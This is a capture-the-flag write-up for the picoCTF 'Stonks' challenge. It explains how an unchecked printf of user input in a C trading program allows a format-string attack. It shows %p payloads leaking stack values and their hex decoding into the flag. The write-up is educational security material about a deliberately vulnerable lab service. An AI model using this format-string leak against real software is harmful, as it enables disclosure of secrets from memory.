 # Stonks
- Category : Binary Exploitation
- Points 20

### Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) nc mercury.picoctf.net 59616

### Downloads
[enc](./enc)

### Hints

1. Okay, maybe I'd believe you if you find my API key.


## Overview

There is very little to go on here other than the hint that we need to find the API key. This will probably turn out to be the flag we need.

## Steps

1. First, let's grab the supplied file with wget

```
wget https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c
```


2. Opening *vuln.c* in a text editor shows that this is a C program - and is presumably behind the service running at *nc mercury.picoctf.net 59616*

3. Ok, let's see what the service is all about

```
nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```

  Option 1 (buy some stonks) asks us to input an API token.
```
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```

  It seems whatever we input, we get 'given' some *stonks*
```
What is your API token?
> sadfasd
Buying stonks with token: sadfasd
Portfolio as of Sat Dec 18 15:26:31 UTC 2021
3 shares of NZ
1273 shares of GJYT
Goodbye!
```
  And the service exists

  Option 2 (View my portfolio) simply tells us we have no stonks ... so it's not remembering us between visits
```
Portfolio as of Sat Dec 18 15:26:41 UTC 2021
You don't own any stonks!
Goodbye!
```


4. Going back to the editor; let's see where the API key is used

   The buy_stocks() method reads in the API from a server-side file and into the FLAG_BUFFER variable
   ```
   66: char api_buf[FLAG_BUFFER];
 	 67: FILE *f = fopen("api","r");

   72: fgets(api_buf, FLAG_BUFFER, f);
   ```

   However, it also asks the user for input (the API token) and then reflects it back to the user (line 93) without checks or filters applied ...
   ```
   90: printf("What is your API token?\n");
   91: scanf("%300s", user_buf);
   92: printf("Buying stonks with token:\n");
   93: printf(user_buf);
   ```

   this means that the program is vulnerable to a [format attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string)


5. So, let us read up a bit more on binary-exploitation (the category of this challenge). [OWASP](https://owasp.org/www-community/attacks/Format_string_attack) is a good place to start.

  The short version is that - because there is no checking in place, we are able to pass in a carefully constructed string that will cause the executing program to read data from it's execution stack rather than just the intended variable.

  In this case, if - when asked for our API token - we input
  ```
  What is your API token?
  %p%p
  ```
  The response will be a little strange
  ```
  What is your API token?
  %p%p                  
  Buying stonks with token:
  0x86634500x804b000
  ```
  These are values read from the stack.

  If we input a whole load of %p's, the response will - as it traces back through the stack - look like
  ```
  0x8b3b3b0 0x804b000 0x80489c3 0xf7effd80 0xffffffff 0x1 0x8b39160 0xf7f0d110 0xf7effdc7 (nil) 0x8b3a180 0x1 0x8b3b390 0x8b3b3b0 0x6f636970 0x7b465443 0x306c5f49 0x345f7435 0x6d5f6c6c 0x306d5f79
  ```


6. We know the stack contains our flag ... which should begin with "picoCTF"

   In hex, (again, using [RapidTables](https://www.rapidtables.com/convert/number/ascii-to-hex.html)) the string would be "70 69 63 6f 43 54 46"

   Scanning the values read from the stack, we can see that hex value (albeit reversed) in the 15th block returned.

   The reversal is because the system is using [little-endian](https://en.wikipedia.org/wiki/Endianness) based storage.


7. We don't, however, know the length of the flag string (as it varies between challenges).

   But we can use a bespoke [python script](./exploit.py) to figure it out for us - playing with the parameters until we can see the whole flag.

   And capture the whole challenge flag

   ```
   python3 exploit.py nc
   b'picoCTF{I_l05t_4ll_my_m0n3y_******}\x00\xf3\xff'
   ```


8. Cut and paste the displayed flag portion into the picoCTF window to gain the credit



### Side Notes

1. The challenge wasn't exactly quick, but the write-up took a whole heap longer than the challenge did!

